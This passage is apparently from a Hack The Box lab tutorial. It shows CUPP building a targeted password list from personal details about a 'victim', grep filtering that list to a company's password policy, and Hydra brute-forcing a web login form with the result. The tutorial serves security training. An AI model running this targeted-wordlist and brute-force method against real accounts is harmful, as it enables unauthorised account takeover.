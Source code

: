 ```shell-session
> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: hacker,blue
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 46790 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```

We now have a generated username.txt list and jane.txt password list, but there is one more thing we need to deal with. CUPP has generated many possible passwords for us, but Jane's company, AHI, has a rather odd password policy.

- Minimum Length: 6 characters
- Must Include:
 - At least one uppercase letter
 - At least one lowercase letter
 - At least one number
 - At least two special characters (from the set`!@#$%^&*`)

As we did earlier, we can use grep to filter that password list to match that policy:


```shell-session
smoothment@htb[/htb]$ grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

This command efficiently filters`jane.txt` to match the provided policy, from ~46000 passwords to a possible ~7900. It first ensures a minimum length of 6 characters, then checks for at least one uppercase letter, one lowercase letter, one number, and finally, at least two special characters from the specified set. The filtered results are stored in`jane-filtered.txt`.

Use the two generated lists in Hydra against the target to brute-force the login form. Remember to change the target info for your instance.


```shell-session
smoothment@htb[/htb]$ hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these * ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 11:47:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 655060 login tries (l:14/p:46790), ~40942 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:Invalid credentials
[PORT][http-post-form] host: IP login: ... password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 11:47:18
```
